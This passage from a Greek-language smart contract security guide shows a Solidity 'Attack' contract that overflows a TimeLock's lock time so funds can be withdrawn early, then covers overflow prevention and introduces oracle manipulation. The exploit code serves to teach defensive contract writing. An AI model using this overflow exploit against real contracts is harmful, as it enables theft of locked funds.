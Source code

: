 ```
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Πώς να αποτρέψετε τις υποεκφορτώσεις και τις υπερβάσεις ακεραίων

Από την έκδοση 0.8.0 και μετά, ο μεταγλωττιστής Solidity απορρίπτει τον κώδικα που οδηγεί σε υποεκφορτώσεις και υπερβάσεις ακεραίων. Ωστόσο, τα συμβόλαια που μεταγλωττίζονται με χαμηλότερη έκδοση μεταγλωττιστή θα πρέπει είτε να εκτελούν ελέγχους σε συναρτήσεις που περιλαμβάνουν αριθμητικές πράξεις είτε να χρησιμοποιούν μια βιβλιοθήκη (π.χ. [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) που ελέγχει για υποεκφόρτωση/υπέρβαση.

#### Διαχείριση Oracle {#oracle-manipulation}

Οι [Oracle](/developers/docs/oracles/) προμηθεύουν πληροφορίες εκτός αλυσίδας και τις στέλνουν εντός αλυσίδας για χρήση από έξυπνα συμβόλαια. Με τις Oracle, μπορείτε να σχεδιάσετε έξυπνα συμβόλαια που διαλειτουργούν με συστήματα εκτός αλυσίδας, όπως οι κεφαλαιαγορές, επεκτείνοντας σημαντικά την εφαρμογή τους.

Αλλά αν η Oracle είναι κατεστραμμένη και στέλνει εσφαλμένες πληροφορίες εντός αλυσίδας, τα έξυπνα συμβόλαια θα εκτελεστούν με βάση εσφαλμένα δεδομένα εισόδου, κάτι που μπορεί να προκαλέσει προβλήματα. Αυτό βρίσκεται στη βάση του «προβλήματος της oracle», το οποίο αφορά το έργο της διασφάλισης ότι οι πληροφορίες από μια oracle του blockchain είναι ακριβείς, ενημερωμένες και έγκαιρες.

Μια σχετική ανησυχία ως προς την ασφάλεια είναι η χρήση μιας oracle εντός αλυσίδας, όπως ένα αποκεντρωμένο ανταλλακτήριο, για να λάβετε την τρέχουσα τιμή για ένα περιουσιακό στοιχείο. Οι πλατφόρμες δανεισμού στον κλάδο της [αποκεντρωμένης οικονομίας (DeFi)](/defi/) το κάνουν συχνά αυτό για να προσδιορίσουν την αξία των εξασφαλίσεων ενός χρήστη για να καθορίσουν πόσα μπορούν να δανειστούν.
